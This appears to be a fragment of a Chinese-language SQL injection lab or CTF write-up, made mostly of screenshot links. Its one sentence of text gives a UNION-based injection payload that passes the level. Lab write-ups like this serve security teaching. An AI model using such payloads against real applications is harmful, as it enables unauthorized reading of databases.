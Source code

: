 ![image-20240909211659497](./imgs/image-20240909211659497.png)

![image-20240909211645262](./imgs/image-20240909211645262.png)

然后用UNION进行SQL空值攻击就过关啦。 `'union select null,null,null--`

![image-20240909211818715](./imgs/image-20240909211818715.png)
